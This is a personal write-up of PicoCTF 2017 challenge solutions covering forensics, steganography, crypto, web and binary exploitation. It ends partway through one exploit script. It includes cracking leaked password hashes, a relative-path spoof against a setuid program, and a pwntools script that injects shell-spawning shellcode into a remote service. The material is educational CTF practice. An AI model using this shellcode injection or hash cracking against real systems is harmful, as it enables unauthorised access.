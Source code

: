 -*- mode: Org; org-download-image-dir: "~/Dropbox/bi0s/pico2017/screenshoot"; -*-

#+TITLE: PicoCTF 2017
#+OPTIONS:  toc:4 

#+BEGIN_EXPORT html
<link href="https://fonts.googleapis.com/css?family=Source+Code+Pro" rel="stylesheet"> 
<style type="text/css">
.h3, h3 {
    font-size: 25px;
    padding: 10px
}
.h4, h4 {
    font-size: 21px;
    padding: 22px
}

/* All levels of nav */
.bs-docs-sidebar .nav > li > a {
    display: block;
    padding: 4px 20px;
    font-size: 14px;
    font-weight: 500;
    color: #999;
}
.bs-docs-sidebar .nav > li > a:hover,
.bs-docs-sidebar .nav > li > a:focus {
    padding-left: 19px;
    color: #2bbc8a;
 text-decoration: none;
    background-color: transparent;
    border-left: 1px solid #2bbc8a;
 }
.bs-docs-sidebar .nav > .active > a,
.bs-docs-sidebar .nav > .active:hover > a,
.bs-docs-sidebar .nav > .active:focus > a {
    padding-left: 18px;
    font-weight: bold;
    color: #2bbc8a;
    background-color: transparent;
    border-left: 2px solid #2bbc8a;
 }
body {
color: #c9cacc;
background-color: #1d1f21;
font-family: "Source Code Pro" , "Menlo", "Meslo LG", monospace;
}
a {
	color: #2bbc8a;
	text-decoration: none;
}
a:focus, a:hover {
	color: #2bbc8a;
	text-decoration: underline;
}
pre {
	color: #d1d9e1;
	background-color: #212326;
	padding-left: 40px;
	padding-top: 20px;
	padding-bottom: 20px;
        border: 1px solid #212326;
font-family: "Source Code Pro" , "Menlo", "Meslo LG", monospace;
}
code {
	background-color: #212326;
}
footer {
	background-color: #212326;
}
</style>

#+END_EXPORT

* Level 1 
** Forensics
*** Digital Camouflage
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Digital-Camouflage][Digital Camouflage]]

#+BEGIN_QUOTE
We need to gain access to some routers. Let's try and see if we can find the password in the captured network data : [[file:./data.pcap][data.pcap]]
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
It looks like someone logged in with their password earlier. Where would log in data be located in a n etwork capture?
If you think you found the flag, but it doesn't work, consider that the data may be encrypted.
#+END_QUOTE

Solution : 
 
This Problem gives us a network capture and we need to analyse the files to get the password of a login.
Using Wireshark we can export all the files from the pcap file . 
Files > Export Objects > HTTP 
Gives a list of HTML which is present in the captured file . And one of the file contains the password which is is encrypted in base64.

main.html
#+BEGIN_EXAMPLE
userid=spiveyp&pswrd=S04xWjZQWFZ5OQ%3D%3D
#+END_EXAMPLE

%3d represent = in url
#+BEGIN_SRC shell
echo S04xWjZQWFZ5OQ== | base64 -d
#+END_SRC

Gives the flag !
#+BEGIN_EXAMPLE
KN1Z6PXVy9
#+END_EXAMPLE

*** Special Agent User

Link : [[https://2017game.picoctf.com/game/level-1/challenge/Special-Agent-User][Special Agent User]] 

#+BEGIN_QUOTE
We can get into the Administrator's computer with a browser exploit. But first, we need to figure out what browser they're using.
Perhaps this information is located in a network packet capture we took: [[file:./data1.pcap][data.pcap]]
Enter the browser and version as "BrowserName BrowserVersion". NOTE: We're just looking for up to 3 levels of subversions for
the browser version (ie. Version 1.2.3 for Version 1.2.3.4) and ignore any 0th subversions (ie. 1.2 for 1.2.0)
#+END_QUOTE

Hint :

#+BEGIN_QUOTE
Where can we find information on the browser in networking data? Maybe [[http://www.useragentstring.com./][try reading up on user-agent strings]]
#+END_QUOTE

Solution :
User agent tell the server the details of which broser and os is the user use
Running xxd 
#+BEGIN_SRC shell
xxd data.pcap | grep -A 10 User
#+END_SRC
There was many wget entries and one was
#+BEGIN_EXAMPLE
--
00003c90: 2f20 4854 5450 2f31 2e31 0d0a 5573 6572  / HTTP/1.1..User
00003ca0: 2d41 6765 6e74 3a20 4d6f 7a69 6c6c 612f  -Agent: Mozilla/
00003cb0: 352e 3020 2857 696e 646f 7773 204e 5420  5.0 (Windows NT 
00003cc0: 352e 3129 2041 7070 6c65 5765 624b 6974  5.1) AppleWebKit
00003cd0: 2f35 3337 2e33 3620 284b 4854 4d4c 2c20  /537.36 (KHTML, 
00003ce0: 6c69 6b65 2047 6563 6b6f 2920 4368 726f  like Gecko) Chro
00003cf0: 6d65 2f33 352e 302e 3231 3137 2e31 3537  me/35.0.2117.157
00003d00: 2053 6166 6172 692f 3533 372e 3336 0d0a   Safari/537.36..
00003d10: 4163 6365 7074 3a20 2a2f 2a0d 0a48 6f73  Accept: */*..Hos
00003d20: 743a 2031 302e 302e 302e 310d 0a43 6f6e  t: 10.0.0.1..Con
00003d30: 6e65 6374 696f 6e3a 204b 6565 702d 416c  nection: Keep-Al
--
#+END_EXAMPLE
Which tells that the browser is Chrome version 35.0.2117

** Binary Explitation
*** Bash Loop
Link:[[https://2017game.picoctf.com/game/level-1/challenge/Bash-Loop][bash loop]]

#+BEGIN_QUOTE
We found a program that is hiding a flag but requires you to guess the number it is thinking of. Chances are Linux has an easy
way to try all the numbers... Go to /problems/69a376443853a8d385877f60375188bf and try it out!
#+END_QUOTE

Solution :

The location contain two files .
#+BEGIN_EXAMPLE
-rwxr-sr-x 1 hacksports bash-loop_7 8216 Mar 31 08:01 bashloop
-r--r----- 1 hacksports bash-loop_7   33 Mar 31 08:01 flag
#+END_EXAMPLE

bashloop has SUID bit set , Running bashloop ,gives
#+BEGIN_EXAMPLE
What number am I thinking of? It is between 0 and 4096
#+END_EXAMPLE
So it takes a number between 0 and 4096 as input .
~./bashloop 0~
#+BEGIN_EXAMPLE
Nope. Pick another number between 0 and 4096
#+END_EXAMPLE
Scripting with bash
#+BEGIN_SRC sh
for i in {0..4096};do  ./bashloop $i ;done | grep -v Nope           
#+END_SRC
Gives the flag!
#+BEGIN_EXAMPLE
Yay! That's the number! Here be the flag: 249808e7eba907b7e323f4f2fff2406d
#+END_EXAMPLE

*** Just No
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Just-No][just no]]

#+BEGIN_QUOTE
A program at /problems/276fc27f3ef921f0e2f0f75ba95c9e60 has access to a flag but refuses to share it. Can you convince it otherwise?
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge.
Could you possibly spoof another auth file it looks at instead...?
#+END_QUOTE

Soution:
Listing the directory 
#+BEGIN_EXAMPLE
-rw-r--r-- 1 hacksports just-no_7    2 Mar 31 08:00 auth
-r--r----- 1 hacksports just-no_7   33 Mar 31 08:00 flag
-rwxr-sr-x 1 hacksports just-no_7 7800 Mar 31 08:00 justno
-rw-r--r-- 1 hacksports just-no_7  838 Mar 31 08:00 justno.c
#+END_EXAMPLE
the file auth contains no and justno is suid executable which can open flag

~justno.c~
#+BEGIN_SRC c
##include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int main(int argc, char **argv){ 
  FILE* authf = fopen("../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/auth","r"); //access auth file in ../../../problems/276fc27f3ef921f0e2f0f75ba95c9e60
  if(authf == NULL){
    printf("could not find auth file in ../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/\n");
    return 0;
  }
  char auth[8];
  fgets(auth,8,authf);
  fclose(authf);
  if  (strcmp(auth,"no")!=0){
    FILE* flagf;
    flagf = fopen("/problems/276fc27f3ef921f0e2f0f75ba95c9e60/flag","r");
    char flag[64];
    fgets(flag,64,flagf);
    printf("Oh. Well the auth file doesn't say no anymore so... Here's the flag: %s",flag);
    fclose(flagf);
  }else{
    printf("auth file says no. So no. Just... no.\n");
  }
  return 0;
#+END_SRC

As the hint suggest the prblem is based on the relative path ,
vunarable code
#+BEGIN_EXAMPLE
FILE* authf = fopen("../../problems/276fc27f3ef921f0e2f0f75ba95c9e60/auth","r"); //access auth file in ../../../problems/276fc27f3ef921f0e2f0f75ba95c9e60
#+END_EXAMPLE

It opens the auth file relative to the position of execution, So we create the same directory structure in tmp and create a file auth with
yes in it and run the program from that place , Since relative path is taken for auth file, the file which we have created will be taken
and we will get the Flag !!

#+BEGIN_EXAMPLE
Oh. Well the auth file doesn't say no anymore so... Here's the flag: 8661ca23ef68adc41d407817b8656dd0
#+END_EXAMPLE
** Reverse Engineering
*** Hex2Raw
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Hex2Raw][hex2raw]]

#+BEGIN_QUOTE
This program requires some unprintable characters as input... But how do you print unprintable characters? CLI yourself to 
/problems/c69bcda4ca5a28fd9d18790fc763db73 and turn that Hex2Raw!
#+END_QUOTE

Running hex2raw program gives
#+BEGIN_EXAMPLE
Give me this in raw form (0x41 -> 'A'):
416f1c7918f83a4f1922d86df5e78348

You gave me:

#+END_EXAMPLE
and promt for input , we just need to print this hex as charecters
#+BEGIN_SRC shell
python -c 'print "\x41\x6f\x1c\x79\x18\xf8\x3a\x4f\x19\x22\xd8\x6d\xf5\xe7\x83\x48"' | ./hex2raw
#+END_SRC

Gives the Flag!
#+BEGIN_EXAMPLE
416f1c7918f83a4f1922d86df5e78348

You gave me:
416f1c7918f83a4f1922d86df5e78348
Yay! That's what I wanted! Here be the flag:
#+END_EXAMPLE
*** Raw2Hex
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Raw2Hex][raw2hex]]

#+BEGIN_QUOTE
This program just prints a flag in raw form. All we need to do is convert the output to hex and we have it! CLI yourself to 
/problems/7ed72aec10a93d978ec3542055975d36 and turn that Raw2Hex!
#+END_QUOTE

Solution :

Running raw2hex give the flag we need to take the hex of it

#+BEGIN_SRC shell
./raw2hex  |  xxd
#+END_SRC
#+BEGIN_EXAMPLE
0000000: 5468 6520 666c 6167 2069 733a 233a 338f  The flag is:#:3.
0000010: 3052 fec7 5f00 9f24 85ac 5352            0R.._..$..SR
#+END_EXAMPLE

And the flag is the  ~233a338f3052fec75f009f2485ac5352~  hex

** Web Exploitation
*** What Is Web
Link : [[https://2017game.picoctf.com/game/level-1/challenge/What-Is-Web][what is web]]

#+BEGIN_QUOTE
Someone told me that some guy came up with the "World Wide Web", using "HTML" and "stuff". Can you help me figure out what that is?  [[http://shell2017.picoctf.com:4443/][webpage]]
#+END_QUOTE

Solution: 

The flag is placed in the html , css and javascript files of the webpage
html
#+BEGIN_EXAMPLE
 The first part of the flag (there are 3 parts) is 72b28b258d2 
#+END_EXAMPLE
css
#+BEGIN_EXAMPLE
The second part of the flag is b2ea021486f 
#+END_EXAMPLE
js 
#+BEGIN_EXAMPLE
The final part of the flag is ddd5020451d
#+END_EXAMPLE

flag : 72b28b258d2b2ea021486fddd5020451d
*** Lazy Dev
Link : [[https://2017game.picoctf.com/game/level-1/challenge/Lazy-Dev][Lazy-Dev]] 

#+BEGIN_QUOTE
I really need to login to this [[http://shell2017.picoctf.com:37907/][website]], but the developer hasn't implemented login yet. Can you help?
#+END_QUOTE



Hint : 

#+BEGIN_QUOTE
Where does the password check actually occur?
Can you interact with the javascript directly?
#+END_QUOTE

Solution : 

the webpage  

#+DOWNLOADED: /tmp/screenshot.png @ 2017-09-04 15:48:56
[[file:screenshoot/Level 1/screenshot_2017-09-04_15-48-56.png]]


source 

#+BEGIN_SRC html
<!DOCTYPE html>
<html lang="en">
<body>
    <h1>Enter the password</h1>
    <input id="password">
    <button type="button" onclick="process_password()">Submit</button>
    <p id="res"></p>

</body>
<script type="text/javascript" src="/static/client.js"></script>
</html>
#+END_SRC

JavaScript

#+BEGIN_SRC java
//Validate the password. TBD!
function validate(pword){
  //TODO: Implement me
  return false;
}

//Make an ajax request to the server
function make_ajax_req(input){
  var text_response;
  var http_req = new XMLHttpRequest();
  var params = "pword_valid=" + input.toString();
  http_req.open("POST", "login", true);
  http_req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
  http_req.onreadystatechange = function() {//Call a function when the state changes.
  	if(http_req.readyState == 4 && http_req.status == 200) {
      document.getElementById("res").innerHTML = http_req.responseText;
    }
  }
  http_req.send(params);
}

//Called when the user submits the password
function process_password(){
  var pword = document.getElementById("password").value;
  var res = validate(pword);
  var server_res = make_ajax_req(res);
}
#+END_SRC

The funtion which validate the password is not implemented and it allways return zero . Using the console in Firefox we can sent js requests
. sending ~make_ajax_req()~ with true gives the flag 


#+DOWNLOADED: /tmp/screenshot.png @ 2017-09-04 16:10:28
[[file:screenshoot/Level 1/screenshot_2017-09-04_16-10-28.png]]

* Level 2
** Forensics
*** Meta Find Me

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Meta-Find-Me][Meta-Find-Me]]

#+BEGIN_QUOTE
Find the location of the flag in the image: [[file:./image.jpg][image.jpg]] Note: Latitude and longitude values are in degrees with no degree symbols,
/direction letters, minutes, seconds, or periods. They should only be digits. The flag is not just a set of coordinates - if 
you think that, keep looking!
#+END_QUOTE

Hint : 
#+BEGIN_QUOTE
How can images store location data? Perhaps search for GPS info on photos.
#+END_QUOTE

Solution :

Running exiftool on the image gives

#+BEGIN_EXAMPLE
Comment                         : "Your flag is flag_2_meta_4_me_<lat>_<lon>_1c1f. Now find the GPS coordinates of this image! (Degrees only please)"

GPS Position                    : 7 deg 0' 0.00", 96 deg 0' 0.00"
#+END_EXAMPLE

The Comment and GPS Section gives the required flag

#+BEGIN_QUOTE
flag_2_meta_4_me_7_96_1c1f
#+END_QUOTE
*** Little School Bus
Link : [[https://2017game.picoctf.com/game/level-2/challenge/Little-School-Bus][Little-School-Bus]] 

#+BEGIN_QUOTE
Can you help me find the data in this [[file:./littleschoolbus.bmp][littleschoolbus.bmp]]
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
Look at least significant bit encoding!!
#+END_QUOTE

Solution :

As the Hint Suggest the Probelem is related to LSB Encoding , The left most digit in binary is called the LSB digit 

An image is constituent of pixel and each pixel contains 3 colors (RGB) with 8 bytes each so a color can have values from 0 - 256 , LSB
encoding is done by changing the LSB bit of the color , this slight variation is not notisable . So by changing the LSB bit we can hide
data inside a file .

#+BEGIN_SRC shell
xxd -b ./littleschoolbus.bmp | head -n 20
#+END_SRC

Gives ,

#+BEGIN_EXAMPLE
00000000: 01000010 01001101 11100010 01001011 00000010 00000000  BM.K..
00000006: 00000000 00000000 00000000 00000000 00110110 00000000  ....6.
0000000c: 00000000 00000000 00101000 00000000 00000000 00000000  ..(...
00000012: 11111100 00000000 00000000 00000000 11000111 00000000  ......
00000018: 00000000 00000000 00000001 00000000 00011000 00000000  ......
0000001e: 00000000 00000000 00000000 00000000 10101100 01001011  .....K
00000024: 00000010 00000000 00000000 00000000 00000000 00000000  ......
0000002a: 00000000 00000000 00000000 00000000 00000000 00000000  ......
00000030: 00000000 00000000 00000000 00000000 00000000 00000000  ......
00000036: 11111110 11111111 11111111 11111110 11111110 11111111  ......
0000003c: 11111111 11111110 11111110 11111111 11111111 11111110  ......
00000042: 11111111 11111111 11111110 11111110 11111110 11111111  ......
00000048: 11111111 11111110 11111110 11111110 11111110 11111111  ......
0000004e: 11111110 11111111 11111111 11111110 11111110 11111111  ......
00000054: 11111111 11111111 11111110 11111111 11111111 11111111  ......
0000005a: 11111111 11111110 11111111 11111111 11111110 11111111  ......
00000060: 11111111 11111111 11111110 11111110 11111111 11111110  ......
00000066: 11111110 11111111 11111111 11111110 11111110 11111111  ......
0000006c: 11111110 11111111 11111110 11111111 11111111 11111110  ......
00000072: 11111111 11111111 11111110 11111111 11111110 11111111  ......
#+END_EXAMPLE

Taking the LSB bit after the many zero 
#+BEGIN_EXAMPLE
00000036: 11111110 11111111 11111111 11111110 11111110 11111111  ......
0000003c: 11111111 11111110 11111110 11111111 11111111 11111110  ......
00000042: 11111111 11111111 11111110 11111110 11111110 11111111  ......
00000048: 11111111 11111110 11111110 11111110 11111110 11111111  ......
#+END_EXAMPLE

8 bit gives 
#+BEGIN_EXAMPLE
01100110 01101100
#+END_EXAMPLE
Which in ascii is ~fl~ ?

Now we script . 
#+BEGIN_SRC python :results output org drawer
binary_data = open("littleschoolbus.bmp","rb") # Open the file binary mode
binary_data.seek(54)  #seek to 54 bytes these bytes does not contain any data
data = binary_data.read() # read the binary data
l = [] 
for i in data:
    l.append(bin(i)[-1])  #make a list of LSB bit
for i in range(0,500,8):
    print(chr(int(''.join(l[i:i+8]),2)),end='') # print the charecter

#+END_SRC

#+RESULTS:

Which gives the flag !! 

#+BEGIN_QUOTE
flag{remember_kids_protect_your_headers_afb3}
#+END_QUOTE

Footnote :

1. [[http://www.aaronmiller.in/thesis/][LSB]]
2. [[http://www.devdungeon.com/content/working-binary-data-python][Python Binay]]
*** Missing Identity

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Missing-Identity][Missing-Identity]]

#+BEGIN_QUOTE
Turns out, some of the files back from Master Challenge 1 were corrupted. Restore this one [[file:./file/file][file]]  and find the flag 
Update 16:26 EST 1 Apr If you feel that you are close, make a private piazza post with what you have, and an admin will help out. 
The flag starts with the character z.
#+END_QUOTE

Hint : 

#+BEGIN_QUOTE
What file is this?
What do you expect to find in the file structure?
All characters in the file are lower case or numberical. There will not be any zeros.
#+END_QUOTE

Solution :

Running file command gives it is data ,
#+BEGIN_SRC 
xxd file 
#+END_SRC

#+BEGIN_EXAMPLE
00000000: 5858 5858 5858 0000 0800 2344 7f4a 6a58  XXXXXX....#D.JjX
00000010: bd98 b48c 0000 a58c 0000 0800 0000 666c  ..............fl
00000020: 6167 2e70 6e67 004e 40b1 bf89 504e 470d  ag.png.N@...PNG.
00000030: 0a1a 0a00 0000 0d49 4844 5200 0002 7300  .......IHDR...s.
00000040: 0000 3c08 0200 0000 8243 abc9 0000 8c6c  ..<......C.....l
00000050: 4944 4154 789c dcfd 5793 ad5b 771e 868d  IDATx...W..[w...
00000060: 31d3 1b56 eab8 e3d9 277e 1120 1820 4022  1..V....'~. . @"
00000070: 4c52 8698 4452 b264 89a6 252b dcb8 5c2e  LR..DR.d..%+..\.
00000080: 5fb9 6cdf e80f f846 572e 5fd8 55ae 7239  _.l....FW._.U.r9
00000090: 48b6 cb14 254b b224 a254 2241 db22 0951  H...%K.$.T"A.".Q

....

00068ec0: 00a4 8100 0000 0066 6c61 672e 706e 6750  .......flag.pngP
00068ed0: 4b01 0214 0314 0000 0008 0023 447f 4a50  K..........#D.JP
00068ee0: 9769 035a ed00 0058 ed00 000f 0000 0000  .i.Z...X........
00068ef0: 0000 0000 0000 00a4 81da 8c00 006e 6f74  .............not
00068f00: 7468 6566 6c61 6731 2e70 6e67 504b 0102  theflag1.pngPK..
00068f10: 1403 1400 0000 0800 2344 7f4a 4773 f028  ........#D.JGs.(
00068f20: cfd4 0000 bbd4 0000 0f00 0000 0000 0000  ................
00068f30: 0000 0000 a481 617a 0100 6e6f 7474 6865  ......az..notthe
00068f40: 666c 6167 322e 706e 6750 4b01 0214 0314  flag2.pngPK.....
00068f50: 0000 0008 0023 447f 4a51 a5e2 980d ea00  .....#D.JQ......
00068f60: 00fd e900 000f 0000 0000 0000 0000 0000  ................
00068f70: 00a4 815d 4f02 006e 6f74 7468 6566 6c61  ...]O..notthefla
00068f80: 6733 2e70 6e67 504b 0102 1403 1400 0000  g3.pngPK........
00068f90: 0800 2344 7f4a e1ca f91d 72ba 0000 63ba  ..#D.J....r...c.
00068fa0: 0000 0f00 0000 0000 0000 0000 0000 a481  ................
00068fb0: 9739 0300 6e6f 7474 6865 666c 6167 342e  .9..nottheflag4.
00068fc0: 706e 6750 4b01 0214 0314 0000 0008 0023  pngPK..........#
00068fd0: 447f 4a6c fcad 133b e600 0027 e600 000f  D.Jl...;...'....
00068fe0: 0000 0000 0000 0000 0000 00a4 8136 f403  .............6..
00068ff0: 006e 6f74 7468 6566 6c61 6735 2e70 6e67  .nottheflag5.png
00069000: 504b 0102 1403 1400 0000 0800 2344 7f4a  PK..........#D.J
00069010: 7663 94c0 f5c1 0000 19c2 0000 0f00 0000  vc..............
00069020: 0000 0000 0000 0000 a481 9eda 0400 6e6f  ..............no
00069030: 7474 6865 666c 6167 362e 706e 6750 4b01  ttheflag6.pngPK.
00069040: 0214 0314 0000 0008 0023 447f 4aa7 207a  .........#D.J. z
00069050: 1eac f100 0098 f100 000f 0000 0000 0000  ................
00069060: 0000 0000 00a4 81c0 9c05 006e 6f74 7468  ...........notth
00069070: 6566 6c61 6737 2e70 6e67 504b 0506 0000  eflag7.pngPK....
00069080: 0000 0800 0800 e101 0000 998e 0600 0000  ................
#+END_EXAMPLE

The intersting part is in the begenning XXXXXX  suggest that it is related to magic bit . these bytes specifies what format the file is . 
Every file format has a uniq bit which specifes that file format , program use there to identify file format . the end of xxd output 
shows many file name which gives a hint that is a compressed file . ZIP has a four byte magic bit 

#+BEGIN_QUOTE
Zip Archive   "PK.."    0x50 0x4B 0x03 0x04
#+END_QUOTE

Changing the hex with hex editor 

#+BEGIN_EXAMPLE
00000000: 504b 0304 0000 0000 0800 2344 7f4a 6a58  PK........#D.JjX
00000010: bd98 b48c 0000 a58c 0000 0800 0000 666c  ..............fl
00000020: 6167 2e70 6e67 004e 40b1 bf89 504e 470d  ag.png.N@...PNG.
00000030: 0a1a 0a00 0000 0d49 4844 5200 0002 7300  .......IHDR...s.
00000040: 0000 3c08 0200 0000 8243 abc9 0000 8c6c  ..<......C.....l
00000050: 4944 4154 789c dcfd 5793 ad5b 771e 868d  IDATx...W..[w...
00000060: 31d3 1b56 eab8 e3d9 277e 1120 1820 4022  1..V....'~. . @"
00000070: 4c52 8698 4452 b264 89a6 252b dcb8 5c2e  LR..DR.d..%+..\.
00000080: 5fb9 6cdf e80f f846 572e 5fd8 55ae 7239  _.l....FW._.U.r9
00000090: 48b6 cb14 254b b224 a254 2241 db22 0951  H...%K.$.T"A.".Q
#+END_EXAMPLE

unzip the file the flag.png gives the flag 

[[file:./file/flag.png]]


Footnote :
https://blog.netspi.com/magic-bytes-identifying-common-file-formats-at-a-glance/
** Cryptography
*** SoRandom
:PROPERTIES:
:ID:       fe8713e5-ea3b-4bcc-afd9-5f062b4673df
:END:
Link : [[https://2017game.picoctf.com/game/level-2/challenge/SoRandom][SoRandom]]

#+BEGIN_QUOTE
We found [[file:./sorandom.py][sorandom.py]] running at shell2017.picoctf.com:27691. It seems to be outputting the flag but randomizing all the characters first. 
Is there anyway to get back the original flag?
#+END_QUOTE

Hint: 
#+BEGIN_QUOTE
How random can computers be?
#+END_QUOTE

Solution : 

This Given Python script
#+BEGIN_SRC python :results output org drawer
#!/usr/bin/python -u
import random,string

flag = "FLAG:"+open("flag", "r").read()[:-1]
encflag = ""
random.seed("random")
for c in flag:
  if c.islower():
    #rotate number around alphabet a random amount
    encflag += chr((ord(c)-ord('a')+random.randrange(0,26))%26 + ord('a'))
  elif c.isupper():
    encflag += chr((ord(c)-ord('A')+random.randrange(0,26))%26 + ord('A'))
  elif c.isdigit():
    encflag += chr((ord(c)-ord('0')+random.randrange(0,10))%10 + ord('0'))
  else:
    encflag += c
print "Unguessably Randomized Flag: "+encflag

#+END_SRC

Connecting to the server gives

#+BEGIN_QUOTE
Unguessably Randomized Flag: BNZQ:20380043pc5p8u861tcy650q8xn8mf5d
#+END_QUOTE

Analysing the python script tells us that it uses the random python module to generate random digit to rotate the input, the seed for the
radom generator is "random" . But this random generator is not completly random decause with the knowlage of the seed we can predict the 
radom number generated in i th iteration of the funtion .  

Creating  a scipt to break this encryption 

#+BEGIN_SRC python :results output org drawer
#!/usr/bin/python -u
import random
import string

flag = ""
encflag = "BNZQ20380043pc5p8u861tcy650q8xn8mf5d"


while len(flag) != len(encflag):
    random.seed("random")
    for i in range(len(flag)):
        random.randrange(0, 6)
    if encflag[len(flag)].isdigit():
        random_digit = random.randrange(0, 10)
    else:
        random_digit = random.randrange(0, 26)

    for c in list(string.ascii_letters) + list("0987654321"):
        if c.islower():
            # rotate number around alphabet a random amount
            cypher = chr((ord(c) - ord('a') + random_digit) % 26 + ord('a'))
        elif c.isupper():
            cypher = chr((ord(c) - ord('A') + random_digit) % 26 + ord('A'))
        elif c.isdigit():
            cypher = chr((ord(c) - ord('0') + random_digit) % 10 + ord('0'))
        else:
            cypher = c
        if cypher == encflag[len(flag)]:
            flag = flag + c
            break

    print(flag)
#+END_SRC

Which gives the flag !
#+BEGIN_QUOTE
FLAG:96109120ba8d1c844afe294c3cd1eb4c
#+END_QUOTE
*** LeakedHashes
Link : [[https://2017game.picoctf.com/game/level-2/challenge/LeakedHashes][LeakedHashes]]

#+BEGIN_QUOTE
Someone got hacked! Check out some service's password hashes that were leaked at [[file:./hashdump.txt][hashdump.txt]] Do you think they chose strong passwords?  
We should check... The service is running at shell2017.picoctf.com:3815!
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
See if you can crack any of the login credentials and then connect to the service as one of the users. What's the chance these hashes 
have actually already been broken by someone else? Are there websites that host those cracked hashes? Connect from the shell with nc.
#+END_QUOTE

Solution : 

We can crack this md5 hashes with online services  https://crackstation.net/ , This site allows of cracking of 20 entries 


#+BEGIN_QUOTE
christene:89689941d40794e311ef8bc7061b9944    : 7h1ck
#+END_QUOTE

After cracking the hash just login with the username and password to get the flag

#+BEGIN_QUOTE
flag is 4f36a002cc953e6567a878758abc8cf9
#+END_QUOTE
** Binary Exploitation
*** Shellz

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Shellz][Shellz]]

#+BEGIN_QUOTE
You no longer have an easy thing to call, but you have more space. Program: [[file:./shellz][shellz!]]  [[file:./shellz.c][Source]] . Connect on shell2017.picoctf.com:49324.
#+END_QUOTE

Hint :
#+BEGIN_QUOTE
There is a bunch of preexisting shellcode already out there!
#+END_QUOTE

Solution :

The program reads 40 bytes and executes these binary , So we need to inject shell code of length less than 40 bytes

This is a shell code from [[https://www.exploit-db.com/exploits/36395/][explit-db]]
#+BEGIN_QUOTE
"\x31\xd2\x52\xb8\xb7\xd8\x3e\x56\x05\x78\x56\x34\x12\x50\xb8\xde\xc0\xad"
"\xde\x2d\xaf\x5e\x44\x70\x50\x6a\x0b\x58\x89\xd1\x89\xe3\x6a\x01\x5e\xcd"
"\x80\x96\xcd\x80"
#+END_QUOTE

Exploit Code 

#+BEGIN_SRC python :results output org drawer
from pwn import *

host = "shell2017.picoctf.com"
port = "49324"

#shellcode which spawn shell
shellcode = "\x31\xd2\x52\xb8\xb7\xd8\x3e\x56\x05\x78\x56\x34\x12\x50\xb8\xde\xc0\xad\xde\x2d\xaf\x5e\x44\x70\x50\x6a\x0b\x58\x89\xd1\x89\xe3\x6a\x01\x5e\xcd\x80\x96\xcd\x80"

io = remote(host, port)  # Connect to the server
io.recvuntil("Give me 40 bytes:\n")  
io.sendline(shellcode)  # Sends the shellcode
io.sendline('cat flag.txt')
print "Flag : ",
print(io.readline())
io.close()

#+END_SRC

Which Gives the Flag !
#+BEGIN_QUOTE
51e2978e4e59013145c2613f01185802
#+END_QUOTE

*** Shells

Link : [[https://2017game.picoctf.com/game/level-2/challenge/Shells][shells]]

How much can a couple bytes do? Use [[file:./shells][shells!]] [[file:./shells.c][Source]] . Connect on shell2017.picoctf.com:40976

Hint :
#+BEGIN_QUOTE
Read about basic shellcode
You don't need a full shell (yet...), just enough to get the flag
#+END_QUOTE

Solution :

We have to write basic shell code to call win funtion 

Exploit code 

#+BEGIN_SRC python :results output org drawer
from pwn import *

host = "shell2017.picoctf.com"
port = "40976"

